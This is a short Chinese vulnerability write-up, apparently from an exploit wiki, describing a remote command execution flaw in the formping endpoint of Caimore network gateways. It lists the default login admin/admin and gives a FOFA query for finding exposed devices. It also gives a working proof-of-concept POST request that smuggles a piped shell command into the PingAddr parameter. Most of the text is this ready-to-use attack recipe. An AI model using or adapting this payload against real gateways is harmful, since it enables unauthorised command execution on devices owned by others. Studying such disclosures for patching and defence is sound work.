


# 才茂通信 网关 formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关 formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

```
才茂通信 网关
```

## 网络测绘

```
app="CAIMORE-Gateway"
```

## 漏洞复现

登陆页面，默认口令 admin/admin



验证POC

```
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

